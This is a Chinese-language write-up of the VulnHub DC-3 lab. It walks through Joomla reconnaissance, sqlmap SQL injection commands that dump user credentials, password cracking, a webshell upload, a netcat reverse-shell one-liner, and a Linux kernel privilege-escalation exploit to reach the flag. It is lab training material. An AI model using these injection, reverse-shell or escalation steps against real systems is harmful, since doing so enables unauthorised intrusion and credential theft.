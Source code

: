 ```yaml
---
title: DC-3复现
tags: 
  - vulnhub
  - 渗透测试
category: 靶场&靶机
permalink: /archives/4926/
published: 2022-06-05 05:31:23
---
```


# DC-3复现

## 描述

> DC-3 是另一个特意建造的易受攻击的实验室，旨在获得渗透测试领域的经验。
>
> 与之前的 DC 版本一样，这个版本是为初学者设计的，虽然这一次，只有一个标志，一个入口点，根本没有任何线索。
>
> 必须具备 Linux 技能和熟悉 Linux 命令行，以及一些基本渗透测试工具的经验。
>
> 对于初学者来说，谷歌可以提供很大的帮助，但你可以随时在@DCAU7 上给我发推文，寻求帮助，让你重新开始。但请注意：我不会给你答案，相反，我会给你一个关于如何前进的想法。
>
> 对于那些有 CTF 和 Boot2Root 挑战经验的人来说，这可能不会花你很长时间（事实上，它可能会花费你不到 20 分钟的时间）。
>
> 如果是这种情况，并且如果您希望它更具挑战性，您可以随时重做挑战并探索其他获得根和获得旗帜的方法。

## 开始

### 信息收集

- 扫描C段看找到目标机器的ip

![image-20220605024811027](./images/image-20220605024811027.png)

- 然后看都开了哪些端口，扫到了80端口

![image-20220605024905636](./images/image-20220605024905636.png)

- 直接访问ip看到这个网站用的是joomla的框架，那我们可以尝试利用joomscan工具获取更加详细的信息

![image-20220605025205577](./images/image-20220605025205577.png)

- 因为kali并没有集成该工具，所以需要下载

- 安装命令`apt install joomscan`

- 安装好之后利用工具查看版本等信息`joomscan -u http://192.168.207.142/`

![image-20220605025824356](./images/image-20220605025824356.png)

- 在报告中不仅仅看到了版本信息，还有后台的管理地址
- 再利用searchploit查找有关的漏洞

![image-20220605030809920](./images/image-20220605030809920.png)

- 再用命令查看txt文本`cat /usr/share/exploitdb/exploits/php/webapps/42033.txt`

![image-20220605031036970](./images/image-20220605031036970.png)

- 从中我们得知漏洞的利用方法

### 渗透开始

#### sqlmap

- 直接跑payload

```sql
sqlmap -u "http://192.168.20.142/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

- 得到了5个数据库，直接查看joomladb数据库中的表

![image-20220605032447411](./images/image-20220605032447411.png)

```sql
sqlmap -u "http://192.168.207.142/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb --tables -p list[fullordering]
```

![image-20220605032852389](./images/image-20220605032852389.png)

- 查列名

```sql
sqlmap -u "http://192.168.207.142/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml"  --risk=3 --level=5 --random-agent -D joomladb  -T "#__users" --columns   -p list[fullordering]
```

![image-20220605040539515](./images/image-20220605040539515.png)

- 查找字段信息

```sql
sqlmap -u "http://192.168.207.142/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml"  --risk=3 --level=5 --random-agent -D joomladb  -T "#__users" -C "name,password,username" --dump   -p list[fullordering]

```

![image-20220605040758091](./images/image-20220605040758091.png)

#### john破解

- 得到密码：snoopy

![image-20220605041557479](./images/image-20220605041557479.png)

#### 传马

- 然后进入前面找到的后台管理地址，发现该网站可以上传一句话木🐎，那就传，然后用蚁剑连接

![image-20220605043121693](./images/image-20220605043121693.png)

- 随便点一个

![image-20220605043207589](./images/image-20220605043207589.png)

- 新建一个php文件用来传马

![image-20220605043329807](./images/image-20220605043329807.png)

- 找到新建的php文件并写入马的内容，并保存

![image-20220605043532371](./images/image-20220605043532371.png)

#### 蚁剑连接

- 打开蚁剑连接

![image-20220605044206406](./images/image-20220605044206406.png)

#### 反弹shell

```txt
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.207.129 443 >/tmp/f
```

![image-20220605051113753](./images/image-20220605051113753.png)

#### 漏洞利用

- 用命令uname -a查看内核版本，经过百度对应的是Ubuntu 16.04

![image-20220605051135777](./images/image-20220605051135777.png)

- 再次利用searchsploit查找有关Ubuntu 16.04的漏洞

![image-20220605045904252](./images/image-20220605045904252.png)

- 打开文件并查看漏洞利用方法

![image-20220605050130615](./images/image-20220605050130615.png)

- 下载exp到靶机上，并解压

![](./images/image-20220605052037421.png)

> 解压后依次进入39772文件夹
>
> 再解压exploit.tar，然后再进入ebpf_mapfd_doubleput_exploit，并运行./compile.sh，然后再运行./doubleput

![image-20220605052434258](./images/image-20220605052434258.png)

- 然后在进到root目录，就看到了flag

![image-20220605052534589](./images/image-20220605052534589.png)

- 最后再cat一下就得到flag

![image-20220605052605567](./images/image-20220605052605567.png)
